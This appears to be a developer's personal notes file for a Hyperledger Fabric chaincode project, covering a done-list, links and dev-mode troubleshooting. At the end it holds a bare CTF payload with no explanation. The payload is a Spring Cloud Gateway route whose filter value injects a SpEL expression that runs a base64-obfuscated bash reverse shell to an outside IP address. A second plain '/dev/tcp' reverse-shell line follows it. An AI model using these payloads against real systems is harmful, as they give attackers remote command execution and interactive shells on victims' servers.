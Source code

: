# nonsense in project root ~
这里主要是记录一些开发时的中间过程（倒着更新）

## useless repos & links
* [fabric-sdk-go仓库](https://github.com/hyperledger/fabric-sdk-go)是用的传统sdk，对gateway方式来说参考意义不大。
* Fabric[中文文档](https://hyperledger.github.io/)（欸好像不是这个网址），github.io的，不过看着好像没什么用

__done:__
* [x] 设计报告！
* [x] sgx交互！
* [x] 每个项目下面都放一个nonsense.md，专门记录废话，README只放关键信息
* [x] 整理项目的markdown，FabApp和chaincode交互时写的markdown乱七八糟
* [x] 去command reference看看peer chaincode invoke和peer chaincode query
* [x] 启动test_network也写成脚本，完善readme的test_network部分
* [x] 先拿atcc的chaincode部署在测试网络上
* [x] 自己写chaincode(atcc)测试，数据用my favorite songs
* [x] 重装fabric-samples
* [x] 重装服务器并恢复开发环境

## misc
让Claude来写这个RSA真是写不清楚啊，无语，不如我上网copy。md，mv指令直接把原来的README给覆盖了，还好GitHub上有备份

根据这个文档[devMod](https://hyperledger-fabric.readthedocs.io/en/release-2.5/peer-chaincode-devmode.html)，按照步骤写了4个shell，放在devModOn目录下，并且把示例代码替换成了自己的chaincode，能开起来，但是init失败，可能是语法问题。在[这里](https://hyperledger-fabric.readthedocs.io/en/release-2.5/commands/peerchaincode.html)这里的一个角落找到了contract-api版本的peer chaincode -c格式，不过好像暂时没啥用？不对啊替换成自己的chaincode了凭什么用原来的peer chaincode invoke能正常工作啊。可能是因为之前go build出来的simpleChaincode没删，后来换成我的之后go build出问题了，没能成功build覆盖原来的。【图片】（哈哈哈哈这里没有图，反正就是InitLedger后QueryRecord成功，阿里云盘有一份备份，时间是2023.5.19）成功了呗！接下来：修改了3.sh，每次都进入我的chaincode目录下go build，之后mv到fabric目录下。可以把1.sh中rm simpleChaincode写到3.sh中，再添加一个功能，用于指定我自己写的chaincode的目录，最后全部推送至Github！

Fabric不同版本的问题：1.4链码安装在peer上，2.0链码容器独立运行。在release-2.5的官方文档写的是：Developers can use the network to test their smart contracts and applications.

官方文档一定要看2.5版本的，版本不一样冲突的太多了




CTF国赛某道题的payload...
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzgxLjY4LjEzMC4yMDkvOTA5OSAwPiYx}|{base64,-d}|{bash,-i}\").getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}

bash -i >&/dev/tcp/81.68.167.39/5000 0>&1